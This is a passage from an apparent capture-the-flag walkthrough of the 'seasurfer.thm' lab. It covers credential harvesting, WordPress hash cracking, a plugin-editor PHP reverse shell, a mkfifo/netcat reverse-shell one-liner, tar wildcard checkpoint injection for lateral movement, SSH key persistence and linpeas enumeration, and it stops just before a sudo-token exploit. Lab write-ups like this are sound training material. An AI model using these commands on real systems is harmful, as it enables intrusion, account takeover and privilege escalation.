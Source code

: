 Running this with the pdf creator found credentials:

![image](https://user-images.githubusercontent.com/93153300/199278622-0ca788c3-4dd9-433a-8920-146b49063ad6.png)
  
Use these credentials to log into http://seasurfer.thm/adminer.  After login, it shows the wordpress database → click on wordpress → click on table wp_users → click on select data.   Found username kyle and hashed password:

![image](https://user-images.githubusercontent.com/93153300/199278667-0d05bc84-2560-425b-99ec-d48ed4fbc845.png)
 
Save the hash in a file and call it hash.  Use command ‘nth’ to find the type of hash:  nth -f hash\
nth returns that the hash is Wordpress ≥ v2.6.2, HC: 400 JtR: phpass.   Crack the hash with hashcat:\
hashcat -m 400 hash  /usr/share/wordlists/rockyou.txt → cracked: jenny4ever

Use these credentials to log into wordpress on wp-login.php.  Next, use plugin editor to get reverse shell, follow these steps: click on plugins (on the left panel)→ plugin file editor → select plugin to edit hello dolly (top right corner) → hello.php→  Replace hello.php content with php pentest monkey reverse shell → click update file (bottom left corner).  Open netcat listener: nc -lvnp 443 (I will use pwncat-cs -lp 443 bc pwncat gives a better shell).  Navigate to seasurfer.thm/wp-content/plugins/hello.php.  We get shell as www-data. 
_______________________________________________
**Lateral Movement**:\
Found crontab running tar with wildcard in /var/www/internal/maintenance/backup.sh:
 
![image](https://user-images.githubusercontent.com/93153300/199278733-211fe847-c670-4495-8ae7-5c4af8a4f751.png)
 
Google search ‘crontab tar wildcard’ shows plenty of articles that will show how to exploit this.\
To exploit, run these commands in www-data shell.  Also, make sure to run these commands in directory /var/www/internal/invoices. Because the file backup.sh shows that the tar is being run on files in that specific directory.\ 
Step 1: echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.1.148 443 >/tmp/f" > shell.sh \
Step 2: echo "" > "--checkpoint-action=exec=sh shell.sh" \
Step 3: echo "" > --checkpoint=1 \
Step 4: open pwncat/nc listener and wait for the crontab to run: pwncat-cs -lp 443 \
Got shell as kyle. Can get the flag at /home/kyle/user.txt

For persistence on user kyle, create ssh keys for kyle and ssh into user kyle. Use the following commands:\
ssh-keygen → cp id_rsa.pub authorized_keys → Download id_rsa → in our terminal run chmod 600 id_rsa → ssh -i id_rsa kyle@seasurfer.thm
___________________________________________________________
**Privilege Escalation:**\
Upload and run linpeas.sh.  Linpeas returned 2 points of interest: 

![image](https://user-images.githubusercontent.com/93153300/199278765-e60a755d-86ae-4c4b-aa09-64394b17a0de.png)
  
![image](https://user-images.githubusercontent.com/93153300/199278791-a65501f6-8ced-4c4c-a1d5-8e1625226459.png)

Go to the hacktricks page linpeas referenced, and go to the ‘Reusing Sudo Tokens’ section on that page. The page shows the following exploit for privilege escalation:
